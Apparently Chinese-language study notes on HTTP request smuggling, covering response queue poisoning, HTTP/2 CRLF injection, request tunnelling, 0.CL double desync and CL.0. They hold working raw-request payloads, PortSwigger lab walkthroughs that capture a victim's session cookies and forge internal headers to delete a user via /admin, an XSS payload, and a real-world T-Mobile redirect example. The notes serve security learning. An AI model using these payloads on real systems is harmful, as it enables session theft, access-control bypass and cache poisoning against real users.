如果稍加注意，走私一个完整的请求，一次恰好发送两个请求，连接上的任何后续请求都将保持不变：  

前端（CL）：

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

后端（TE）：

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

没有无效请求，攻击后的连接仍应保持开放。  


#### Desynchronizing the response queue 脱同步

当走私一个完整请求时，前端服务器仍认为之转发了一个请求，后端看到两个完整请求，会发送两个完整响应：



前端正确地将第一个响应映射到最初的“包装”请求，并将其转发给客户端。由于没有其它请求在等待响应，该响应会被保存在前端和后端连接上的一个队列中。  

当前端收到另一个请求，会将其转发给后端，然而在发送响应时会发送队列中第一个响应，即走私请求对应的响应。  

来自后端的正确响应没有匹配的请求，每次通过一个连接向前端转发新请求时，这个循环都会重复。  


#### 窃取其他用户的响应

一旦响应队列被投毒，攻击者只要发送也给任意请求，就可以捕获另一个用户的请求响应。  



攻击者无法控制收到哪些响应，因为他们总是被发送队列中的下一个响应，即对应上一个用户请求的响应。利用 Trunder 之类的自动化工具，攻击者可以轻松的重复这个过程，抓取一些用户的响应信息，进而从中获取有用的信息。     

只要前端/后端连接保持开放，攻击者就可以持续窃取响应。连接的关闭时间因服务器而异，常见的默认值是处理完 100 个请求后终止，但攻击者可以重新投毒一个新的连接继续窃取。  


注：为了区分窃取的响应和自己的请求，可以尝试在发送的两个请求都使用不存在的路径，这样你的请求都会一致的收到 404 之类的响应。  


### CRLF 注入

尽管网站预防基础的 H2.CL 或者 H2.TE 注入，采取例如验证 CL 头、剥离 TE 头等手段。但是 HTTP/2 的二进制形式开启了一些新型的绕过前端服务器的机制。  

HTTP/1 中，有时可以利用服务器处理 `\n` 换行符之间的差异注入走私的头部，例如后端识别 `\n` 为分隔符，但前端不将其视为 header 分隔符，有些前端就无法检测到第二个header：

```http
Foo: bar\nTransfer-Encoding: chunked
```

但这种差异在 `CLRF(\r\n)` 序列时并不存在，因为所有服务器都支持这种分隔符。  

由于 HTTP/2 是基于二进制而非文本的，每个头部的边界基于显式、预定的偏移量，而不是分隔符，因此 `\r\n` 这种在头部中不具有特殊意义，不会被分割：

```http
foo: bar\r\nTransfer-Encoding: chunked
```

当被重写为 HTTP/1 请求时，`\r\n` 将再次被解释为分隔符，HTTP/1 的后端服务器将看到两个 header：

```http
Foo: bar
Transfer-Encoding: chunked
```


portswigger 实验可以通过修改邮箱功能获取：

使用 wiener 用户登录。  

找一个POST请求，发送到 repeater，在 inspector 中增加一个 header `foo` ，填入下面的值(回车需要 Shift+Return 输入)：

```http
bar
Transfer-Encoding: chunked
```

body 部分：

```http
0

POST /my-account/change-email HTTP/1.1
Host: 0a8e00580325e063807f3af8008800f4.web-security-academy.net
Cookie: session=970VaAzitHKF01p7Zkicsf6biZF9Dqmx
Content-Length: 1044

csrf=MgvJ57uHjYRu24ooa7h40ir6zNmZ4HH9&email=ddd@eee.fffff
```

随后在 wiener 的主页可以看到信息：

```text
Your username is: wiener

Your email is: g@h.iGET / HTTP/1.1 Host: 0a8e00580325e063807f3af8008800f4.web-security-academy.net sec-ch-ua: "Not:A-Brand";v="8", "Chromium";v="156", "Google Chrome";v="156" sec-ch-ua-mobile: ?0 sec-ch-ua-platform: "Linux" upgrade-insecure-requests: 1 user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36 accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/jxl,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 sec-fetch-site: none sec-fetch-mode: navigate sec-fetch-user: ?1 sec-fetch-dest: document accept-encoding: gzip, deflate, br, zstd accept-language: en-US,en;q=0.9 priority: u=0, i cookie: victim-fingerprint=BNfRyJHxkWsBFENck6gYJtEG8413R6Nf; secret=c725dAnH2RYtcVyiUF3TQ77mALwz3KSW; session=STdYYllu2hxpvBVY070CZjeNCi2H82Nj; _lab_analytics=JFzRsRqzPK8o2xLiBgofPp6fqqt2enQILdH71HbTNzN1DrWLko8TGU7ZH2MGxs2olswkJ8bjzKvvaX9p1d8dFw6Jrv3YzjcW0WID9MDoeA9pkKnlcrrGAejG1bfZ70zbDSFNBo52AbjeXXwcyuUDURE

```


官方的使用 search 缓存功能更简洁，这个邮箱修改还需要获取 csrf 值。  


### HTTP/2 请求分割

前面在响应队列中分割请求时，都是在消息内部中进行拆分。但当存在 HTTP/2 降级时，也可以让拆分发生在 HTTP 的 header 中。  

这种方法更通用，不依赖使用允许包含请求体的请求方法。例如甚至可以使用 GET 请求：

```http
:method	GET
:path	/
:authority	vulnerable-website.com
foo	
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

这在 `Content-Length` 被验证且后端不支持 TE 分块编码的情况下也可以使用。     

要在请求头拆分，需要了解前端如何重写请求，在手动添加 HTTP/1 头部时添加上那些必要的头部。  
例如需要确保后端收到的每个请求都包含 `Host` 头，前端服务器通常在降级前剥离 `:Authority` 伪头部，并用新的 HTTP/1 的 `Host` 头替换它。有不同的实现方法，因此在注入时需要根据情况将 `Host` 头放在不同位置。  

示例：

```http
:method	GET
:path	/
:authority	vulnerable-website.com
foo	
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

在重写过程中，一些前端服务器会将新的 `Host` 头追加到当前头部列表的末尾。对于上面的请求是在 foo 的后面，这样将位于后端拆分点之后，第一个请求将完全没有 `Host` 头。这种情况下需要调整注入的 `Host` 的位置，将其落入拆分后第一个请求中：

```http
:method	GET
:path	/
:authority	vulnerable-website.com
foo	
bar\r\n
Host: vulnerable-website.com\r\n
\r\n
GET /admin HTTP/1.1
```

其它类似的情况也是需要调整 header 的位置适配请求拆分。  


### HTTP 请求隧道

之前的请求走私都是基于前端和后端之间的同一连接处理多个请求。  

一些安全策略严格的服务器只允许来自相同 IP 或相同客户端的请求重用连接，这就限制了使用前述请求走私所能实现的目标，没有明显的方式来影响其它用户流量。        




虽然无法毒化套接字干扰其他用户的请求，但仍然可以通过发送一个会从后端引出两个响应的单一请求。这样能够完全对前端隐藏一个请求及匹配的响应。  



这种技术可以绕过前端的安全措施，以这种方式将请求隧道到后端，这是一种有限的请求走私形式，但仍然存在高度的可利用性。  


#### HTTP/2 请求隧道

请求隧道在 HTTP/1、HTTP/2 中都存在，但在 HTTP/1 的环境检测难度较高。由于 HTTP/1 中的 keep-alive 连接的工作方式，即使收到两个响应，也不能确认请求被成功走私。  

在 HTTP/2 中，每个“流”都应该只包含一个请求和响应，如果收到一个 HTTP/2 响应，其中响应体看起来包含一个 HTTP/1 响应，就可以确认已经成功隧道到第二个请求。  


#### 请求隧道泄露内部 header

当仅能使用请求隧道时，无法使用前面的技术泄露内部头，但通过 HTTP/2 降级出现一种方案。  

需要诱骗前端服务器将内部头追加到发往后端的请求体中，例如我们发送一个如下请求：

```http
:method	POST
:path	/comment
:authority	vulnerable-website.com
content-type	application/x-www-form-urlencoded
foo	
bar\r\n
Content-Length: 200\r\n
\r\n
comment=

x=1
```

此请求中前后端都认为只有一个请求，但可以使他们在头部结束的位置产生分歧。  

前端将注入的请求视作是头部的一部分，因此在尾随的 `comment=` 字符串之后添加任何新的头部。而后端看到 `\r\n\r\n` 序列，认为是头部结束标志， `comment=` 字符串连同内部头都被认为是请求体的一部分。结果就是一个 `comment` 参数，值是内部请求头的内容。  

```http
POST /comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 200

comment=X-Internal-Header: secretContent-Length: 3
x=1
```


#### 盲请求隧道

一些前端服务器会读取从后端收到的所有数据，这样如果成功隧道到一个请求，可能会将两个响应都转发到客户端，隧道请求的响应被嵌入到主响应的 body 中。  

其它服务器只读取响应 `Content-Length` 头中指定的字节数，因此只有第一个被转发给客户端。这样由于无法看到隧道请求的响应，就属于盲请求隧道漏洞。  


#### 使用 HEAD 的非盲请求隧道

盲请求隧道难以利用，但偶尔可以通过 HEAD 请求走私将这些漏洞变为非盲。  

对于 HEAD 请求的响应通常包含 `Content-Length` 头，即使没有请求体。这个长度通常指的是对同一端点进行 GET 请求将返回的资源长度。一些前端服务器会尝试读取 header 中指定的字节数，这种操作可能导致过度读取后端的响应，这样就会收到隧道请求响应开头的字节。  

请求：

```http
:method	HEAD
:path	/example
:authority	vulnerable-website.com
foo	
bar\r\n
\r\n
GET /tunnelled HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
X: x
```

响应：

```http
:status	200
content-type	text/html
content-length	131
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 4286

<!DOCTYPE html>
<h1>Tunnelled</h1>
<p>This is a tunnelled respo
```

这样属于将一个响应的 `Content-Length` 头和另一个响应的 body 混合在一起，因此需要一些平衡技巧。      

如果 HEAD 请求的端点返回的资源比你要读取的隧道响应短，可能会在看到所需数据之前被截断。而如果返回的 `Content-Length` 比隧道请求的响应长，前端等待后续字节，可能会超时。  

通过一些试错可以尝试下列解决方案克服问题：

* 将 HEAD 请求指向一个根据需要返回更长或更短资源的不同端点
* 如果资源太短，在主 HEAD 请求中使用反射输入来注入任意的填充字符。即使实际上看不到你的输入被反射，返回的 `Content-Length` 仍然会相应的增加。
* 如果资源太长，在隧道请求中使用反射输入来注入任意字符，使隧道响应的长度匹配或超过预期内容的长度。


#### HTTP/2 请求隧道实验

* 在 blog 中找一篇提交一份评论，然后在 BurpSuite 中将刚才的请求发送到 Repeater 中，进行修改，大致如下：

  ```http
  POST /post/comment HTTP/2
  Host: 0af70038044fb30280753583001100e7.web-security-academy.net
  Cookie: session=b2VlYuhxeTGVrHaqASskDsY0xBr4nTPr
  
  csrf=I102H44V2OiBRShm8aYJB6GQiyBn3m6x&postId=4&name=attacker&email=b@ad.man&website=http://malicio.us&comment=xxx
  ```

* 正常会收到 302 跳转说明请求正常

  ```http
  HTTP/2 302 Found
  Location: /post/comment/confirmation?postId=4
  X-Frame-Options: SAMEORIGIN
  Content-Length: 0
  
  ```

* 在文章评论能看到刚提交的内容

  

* 修改请求，在右侧 Inspector 中的 Request Header 添加一个请求头以通过走私隧道获取前端添加的内部 header，请求内容大致如下：

  ```http
  POST /post/comment HTTP/2
  Host: 0af70038044fb30280753583001100e7.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded
  Foo: bar
  Cookie: session=b2VlYuhxeTGVrHaqASskDsY0xBr4nTPr
  Content-Length: 210
  
  csrf=I102H44V2OiBRShm8aYJB6GQiyBn3m6x&postId=4&name=attacker&email=b@ad.man&website=http://malicio.us&comment=
  
  
  ```

  

* response 以 302 跳转返回，刷新该文章评论中会插入内部 header：

  ```
  : Content-Length: 3 X-SSL-VERIFIED: 0 X-SSL-CLIENT-CN: null X-FRONTEND-KEY: 807187393228828
  ```

* 添加一个 HEAD 方法请求 / 路径到 repeater 中，修改添加 header 如下：

  ```http
  foo: bar
  
  GET /admin HTTP/1.1
  X-SSL-VERIFIED: 1
  X-SSL-CLIENT-CN: administrator
  X-FRONTEND-KEY: 807187393228828
  
  
  ```

* ```http
  HTTP/2 500 Internal Server Error
  Content-Type: text/html; charset=utf-8
  Content-Length: 151
  
  <html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Received only 3180 of expected 8915 bytes of data</h1></body></html>
  ```

* 上面错误表示 HEAD 请求的 / 返回字节 8915 大于内部请求 /admin 返回的页面数据 3180，需要找一个适当的资源重试，这里找到一个`/resources/labheader/images/ps-lab-notsolved.svg` 约 800 左右，修改后请求：

* 

* 走私的请求返回 401 未授权，经过排查是 comment 中获取的字节少了一位，应该是 `X-FRONTEND-KEY: 8071873932288288`，修改后再次重试：

* 

* 返回 200，再次将 URL 修改为删除 carlos，如下：

* ```http
  foo: bar
  
  GET /admin/delete?username=carlos HTTP/1.1
  X-SSL-VERIFIED: 1
  X-SSL-CLIENT-CN: administrator
  X-FRONTEND-KEY: 8071873932288288
  
  
  ```

* 请求结果：

* ```http
  HTTP/2 500 Internal Server Error
  Content-Type: text/html; charset=utf-8
  Content-Length: 149
  
  <html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Received only 372 of expected 809 bytes of data</h1></body></html>
  ```

* 虽然提示返回的字节超过期待数量，但是已经成功触发删除 URL，刷新页面即可看到 solved。

* 

  


#### 经过 HTTP/2 请求隧道缓存投毒

请求隧道比经典的走私场景更受限，但仍然可以构造高严重性的攻击。例如 web 缓存投毒。  

通过非盲请求隧道，可以将一个 response 的 header 和另一个 response 的 body 混合搭配。如果 body 中反射了未编码的用户输入，就可以利用，在浏览器中不会执行代码的上下文中实现反射型 XSS。  

示例，未编码的、攻击者可控的输入：

```http
HTTP/1.1 200 OK
Content-Type: application/json

{ "name" : "test<script>alert(1)</script>" }
[etc.]
```

本身这个 response 为 application/json 类型，不会造成危险。但结合请求隧道到后端，这个 response 出现在另一个 response 的 body 中，并且继承第二个 response 的 `content-type` ：

```http

:status	200
content-type	text/html
content-length	174
HTTP/1.1 200 OK
Content-Type: application/json

{ "name" : "test<script>alert(1)</script>" }
[etc.]
```

由于缓存在前端，这些混合的响应内容就可能会被返回给其他用户。  


### 0.CL 请求走私

0.CL 脱同步攻击的前提是前后端存在 **H-V（Hidden-Visible）** 差异 ，是发送在前端忽略 `Content-Length` 头，认为请求不存在 body，后端服务器处理 `Content-Length` 的情况下持续等待 body 到达。这种场景长期被认为存在死锁不可利用。  


示例，前端忽略 CL 头 ，会将下面请求视为2个发送到后端：

```http
GET /Logon HTTP/1.1
Host: <redacted>
Content-Length:
 7

GET /404 HTTP/1.1
X: Y
```

后端服务器处理 CL 头，收到第一个请求会一直等待后续 body 数据直到超时。  


**early-response gadget**  

但通过将 0.CL 与一个提前响应组件(early-response gadget)结合（这是一种使后端收到完整请求体之前就做出响应的技术），攻击者就可以打破死锁，然后使用双脱同步（double desync）来构建完整的利用。  


一些 **early-response gadget** ：

* IIS：`GET /con` ，CON 等一些关键字在 Windows 中属于保留名称
* Nginx：静态文件，响应静态文件时不等待 request body
* 通用的：服务器级别的重定向，因为重定向不需要 request body
* Apache：暂未发现，出错会立即关闭连接


示例，访问 IIS 的请求，如果命中  /con 这种保留名称 URL，IIS 不会等待 body 到达就做出响应，并且保持连接开放：

```http
GET /con HTTP/1.1
Host: <redacted>
Content-Length:
 7

GET / HTTP/1.1
Host: <redacted>
```

用户视角：

后端服务器视角：




**双脱同步**  

核心思路是将 0.CL 转换为 CL.0，分 3 个阶段，关键技巧是利用大多数服务器在头部块末尾插入额外头部，如果走私从头部快前方开始，追加的头部落在走私请求之后，不影响 CL 的计算，攻击就能够相对可靠的起效：

```
阶段 1：0.CL 毒化
  POST /nul HTTP/1.1
  Content-length:
   163

  POST / HTTP/1.1
  Content-Length: 111
  ...
  ↓
  前端看不到 CL，缓冲 POST / 请求
  后端看到 CL=163，等待请求体
  但 /nul 是提前响应 gadget，后端立即返回响应
  连接保持开放，POST / 请求留在后端缓冲区

阶段 2：CL.0 武器化
  后端缓冲区中的 POST / 请求被处理
  它的 CL=111 让后端继续读取请求体
  但实际数据是 GET / HTTP/1.1...（来自下一个请求）
  → 形成 CL.0 脱同步，恶意前缀被注入

阶段 3：毒化受害者
  恶意前缀 + 受害者请求 → 有害响应
```


**Expect头**  

核心是发现 `Expect: 100-continue` 会破坏前端对请求体的处理逻辑，该请求头是早期的优化头。  

除了原始的头，还存在混淆头：`Expect: y 100-continue` ，即在原始头中混杂一些内容，让前端忽略该头，后端处理，产生 0.CL。  

T-Mobile 示例：

```http
GET /logout HTTP/1.1
Host: <redacted>.t-mobile.com
Expect: 100-continue
Content-Length: 291

HTTP/1.1 404 Not Found          ← 后端返回 404，不是 100
GET /logout HTTP/1.1
Host: <redacted>.t-mobile.com
Content-Length: 100

GET / HTTP/1.1
Host: <redacted>.t-mobile.com

GET https://psres.net/assets HTTP/1.1
X: y
HTTP/1.1 200 OK
GET / HTTP/1.1
Host: <redacted>.t-mobile.com

HTTP/1.1 301 Moved Permanently
Location: https://psres.net/…   ← 成功重定向到攻击者域名
```


0.CL 脱同步漏洞是一个较新发现的请求走私形式。  

参考：https://portswigger.net/research/http1-must-die  

作者列出的一些时间线：

- 2004: [HTTP Request Smuggling](https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf) – (largely forgotten)
- 2016: [Hiding wookies in HTTP](https://media.defcon.org/DEF CON 24/DEF CON 24 presentations/DEF CON 24 - Regilero-Hiding-Wookiees-In-Http.pdf) (largely ignored at the time)
- 2019: [Exploit header parser discrepancies](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn) (CL.TE, TE.CL)
- 2021: [Exploit HTTP/2 downgrading](https://portswigger.net/research/http2) (H2.CL, H2.TE)
- 2022: [Exploit endpoints that ignore CL](https://portswigger.net/research/browser-powered-desync-attacks) (CL.0, H2.0, CSD)
- 2024: [Exploit dechunking](https://www.bugcrowd.com/blog/unveiling-te-0-http-request-smuggling-discovering-a-critical-vulnerability-in-thousands-of-google-cloud-websites/) (TE.0)
- 2025: [Exploit chunk extensions (TE.TE)](https://w4ke.info/2025/06/18/funky-chunks.html)
- Just now: 0.CL desync attacks


## 基于浏览器的请求走私


### CL.0 请求走私

有时一些后端服务器可以被忽悠忽略 CL 头，这意味着它们会忽略请求的 body，等同于 ` Content-Length: 0` ，因此称为 CL.0 漏洞。这开启了一条不需要 TE 或者 H2 的 HTTP 请求走私方法。


#### 探测

探测 CL.0 漏洞，首先发送一个在其请求体中包含另一个部分请求的请求，然后发送一个正常的后续请求。然后检查后续请求的响应中是否收到了走私前缀的影响。  

示例请求：

```http
POST /vulnerable-endpoint HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: xGET / HTTP/1.1
Host: vulnerable-website.com
```

两条请求的响应：

```http
HTTP/1.1 200 OK


HTTP/1.1 404 Not Found
```

这里没有篡改任何请求头。  

可以在 BurpSuite 中按照如下操作：

* 创建一个包含设置请求的 tab，和另一个包含任意请求的 tab
* 将两个 tab 添加到一个组中
* 使用发送按钮旁边的按顺序发送组
* `Connection` 头改为 `keep-alive`
* 发送序列然后检查 response


在实际环境中，主要重点应放在服务器级别的重定向、静态资源上，而其它不接收 POST 请求的 endpoint 上大多数隐式的认为没有 body，因此不会观察到。  


